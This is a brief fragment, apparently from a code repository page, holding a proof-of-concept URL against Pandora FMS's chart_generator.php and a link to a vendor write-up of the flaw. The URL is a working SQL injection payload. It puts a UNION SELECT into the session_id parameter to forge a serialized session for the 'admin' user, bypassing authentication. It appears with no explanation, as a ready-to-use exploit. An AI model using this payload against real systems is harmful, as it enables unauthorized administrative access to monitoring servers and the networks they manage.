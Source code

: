 poc : http://127.0.0.1:8888/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO

https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
